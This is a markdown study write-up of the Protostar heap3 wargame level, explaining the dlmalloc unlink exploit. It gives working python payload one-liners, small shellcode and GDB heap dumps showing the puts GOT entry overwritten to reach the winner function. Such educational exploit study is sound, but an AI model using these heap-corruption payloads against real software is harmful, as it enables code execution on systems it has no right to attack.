

# dlmalloc Heap Exploitation pt. 2

## Overview: The Potential Vulnerability

> Let’s consider this heap setup. We have a chunk we want to free, which is followed by an already free chunk. And that free chunk has two pointers, forward and backwards pointing to some other free chunks. So they are in this double linked list.


> Now what will happen is, the free algorithm will merge these two blocks together:



> It will do that by first unlinking the free block from the linked list, by using the unlink macro. And we learned what it does:


> It takes the forward pointing address and writes it at the forward pointer of the previous chunk:


> And it will take the backward pointing address and write it to the backward pointer of the next chunk:


> And when we obviously control the pointers of a free chunk that will be unlinked, we can point into the Global Offset Table and write there the forward address:


## Exploitation

**The plan:**
> So when we skim over the source code again, we can now make a plan. First of all we again have to overflow the size of our chunk with a bigger value than 80. So let’s do the 100 like last video:


> But then we could also not care about the first consolidation attempt of the previous block. This ways we don’t have to setup another fake chunk. So we make sure that the last bit of the block we are going to free is set to 1. So it’s still in use.


> But we could do the consolidate forward part. There we take the next chunk and check from it’s next chunk `nextchunk` the prev in use bit, and if that is not set, we attempt to `unlink`, consolidate that block.
```c
/* consolidate forward */
if (!nextinuse) {
  unlink(nextchunk, bck, fwd);
  size += nextsize;
} else clear_inuse_bit_at_offset(nextchunk, 0);
```

> This means we need two fake blocks, one that contains the forward and backwards pointer we want to use to overwrite the GOT with an address from the heap. And the second chunk has to have a size with the lowest bit set to 0. 


> BUT we can’t use small size values. But if you look in the code how size is used, it’s just used as an offset which is added to an address. The code doesn’t check that it’s a ridiculous huge chunk. It just adds that value:
```c
/* Treat space at ptr + offset as a chunk */
#define chunk_at_offset(p, s)  ((mchunkptr)(((char*)(p)) + (s)))

else if (!chunk_is_mmapped(p)) {
  nextchunk = chunk_at_offset(p, size);
  nextsize = chunksize(nextchunk);
}
```

> And here is where the trick comes into play. We could use fffffffc as the size of the chunk, which results in a -4.

### First Attempt
**Constructing the first heap chunk:**
```bash
python -c "print('\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a
```
The shellcode is just calling the `winner` function, here is how we make the shellcode. Go to: https://defuse.ca/online-x86-assembler.htm#disassembly, and just paste this instructions:
```asm
mov eax,0x8048864
call eax
```

**Constructing the second heap chunk:**
```bash
python -c "print('B'*36+'\x65')" > /tmp/b
```

**Constructing the last heap chunk:**
```bash
python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x08\xc0\x04\x08')" > /tmp/c
```
1. The first and second `0xfffffffc` are about escalating the n
2. The last 8 bytes, it's the `fd` and `bk` pointers that we want to write. `fd` points to the `puts` GOT, and `bk` points to heap at position `0x0804c008`.

So here is the overall plan:


Run the script through GDB:
```bash
run $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
```

After last `strcpy` call:

1. `0x804c008-0x804c00c` is where our shellcode `winner` located
2. `0x804c054` is about setting up for the third chunk. Set its value to `0x65` with `PREV_INUSE=1`, and hence passing two cases:
```c
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){}
if (!prev_inuse(p)) {}
```
just like we have planned
3. `0x804c0b4-0x804c0b8`
3. `0x804c0bc-0x804c0c0`


First `free` call, `*` indicates some changes within that address:
```bash
0x804c000:	0x00000000	0x00000029	0x048864b8	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Second `free` call
```bash
0x804c000:	0x00000000	0x00000029	0x048864b8	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Third `free` call
```bash
0x804c000:	0x00000000	0x00000029	*0x0804c028	0x00d0ff08
0x804c010:	0x0804b11c	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	*0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	*0x00000061	*0x0804b194	*0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	*0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c008	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```

Well we shouldn't place the "shellcode" exactly on address `0x804c008` because eventually after the third `free(a)` call `0x804c008` will get replaced with `0x0804c028` which is just a pointer to next/second heap chunk, `0x0804c028=0x00000000`.


### second attempt: successful exploit
Here is the revision script, this is the final solution:
```bash
python -c "print('A'*12+'\xB8\x64\x88\x04\x08\xFF\xD0')" > /tmp/a

python -c "print('B'*36+'\x65')" > /tmp/b

python -c "print('C'*92+'\xfc\xff\xff\xff\xfc\xff\xff\xff'+'\x1c\xb1\x04\x08'+'\x14\xc0\x04\x08')" > /tmp/c

```

After the last `free` call, `*` is where our shellcode lies:
```bash
0x804c000:	0x00000000	0x00000029	0x0804c028	0x41414141
0x804c010:	0x41414141	*0x048864b8	*0x00d0ff08	0x0804b11c
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000061	0x0804b194	0x0804b194
0x804c060:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c070:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c080:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c090:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0a0:	0x43434343	0x43434343	0x43434343	0x43434343
0x804c0b0:	0x00000060	0xfffffffc	0xfffffffc	0x0804b11c
0x804c0c0:	0x0804c014	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
```


Let's try without GDB:
```bash
$ ./heap3 $(cat /tmp/A) $(cat /tmp/B) $(cat /tmp/C)
that wasn't too bad now, was it? @ 1725553812
Segmentation fault
```


```bash
mov eax,0x8048864
call eax
mov edi,0
call exit
```


### third attempt: another way
This one is from [Joshua Wang](https://conceptofproof.wordpress.com/2013/11/19/protostar-heap3-walkthrough/) article:
```bash
python -c 'print("\x90"*14 + "\x68\x64\x88\x04\x08\xc3" + "A"*12 + "\xf8\xff\xff\xff" + "\xfc\xff\xff\xff")' > /tmp/a

python -c 'print "BBBB"*2+"\x1c\xb1\x04\x08"+"\x08\xc0\x04\x08"' > /tmp/b
```

Run in GDB `run $(cat /tmp/a) $(cat /tmp/b) CCCC`:

**Here is the heap memory after the last `strcpy` call, of course with modified values to pass this challenge:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x90909090	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0x41414141	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0x42424242	0x0804b11c	0x0804c008
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x43434343	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

**After the first `free(c)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x90909090	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0x41414141	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0x42424242	0x0804b11c	0x0804c008
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	*0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

**After the first `free(b)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x90909090	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0xfffffff4	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0xfffffff5	0x0804b194	0x0804b194
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000fb1	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```
And after that we successfully overwrite the `puts` GOT:
```bash
(gdb) disas 0x8048790
Dump of assembler code for function puts@plt:
0x08048790 <puts@plt+0>:	jmp    DWORD PTR ds:0x804b128
0x08048796 <puts@plt+6>:	push   0x68
0x0804879b <puts@plt+11>:	jmp    0x80486b0
End of assembler dump.
(gdb) x/1wx 0x804b128
0x804b128 <_GLOBAL_OFFSET_TABLE_+64>:	0x0804c008
```

**After the first `free(a)` call:**
```bash
0x804c000:	0x00000000	0x00000029	0x00000000	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c020:	0x41414141	0xfffffff4	0xfffffff8	0xfffffffc
0x804c030:	0x42424242	0xfffffff5	0x0804b194	0x0804b194
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000fb1	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
```

When landing on `puts` call, we can just `step into` to see whether we land on the heap we were pointing or not:
```bash
Breakpoint 4, 0x08048790 in puts@plt ()
(gdb) si
0x804c000:	0x00000000	0x00000029	0x00000000	0x90909090
0x804c010:	0x0804b11c	0x64689090	0xc3080488	0x41414141
0x804c008:	add    BYTE PTR [eax],al
0x804c00a:	add    BYTE PTR [eax],al
0x0804c008 in ?? ()
```
Well we did land on `0x0804c008` which we defined earlier on second heap chunk `bk`'s pointer.

We are ready to call `winner`:
```bash
(gdb) 
0x804c016:	push   0x8048864
0x804c01b:	ret    
0x0804c016 in ?? ()
(gdb) c
Continuing.
that wasn't too bad now, was it? @ 1725911604

Program exited with code 056.
0x804c000:	Error while running hook_stop:
Cannot access memory at address 0x804c000
```


```bash
./heap3 $(cat /tmp/a) $(cat /tmp/b) CCCC
```


## Resources
___. *Once upon a free()*. https://phrack.org/issues/57/9.html.

Airman. https://airman604.medium.com/protostar-heap-3-walkthrough-56d9334bcd13

LiveOverflow. *The Heap: Once upon a free() - bin 0x17*
. https://www.youtube.com/watch?v=gL45bjQvZSU&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=30.

LiveOverflow. *The Heap: dlmalloc unlink() exploit - bin 0x18*
. https://www.youtube.com/watch?v=HWhzH--89UQ&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=32.

Wang, Joshua. https://conceptofproof.wordpress.com/2013/11/19/protostar-heap3-walkthrough/.
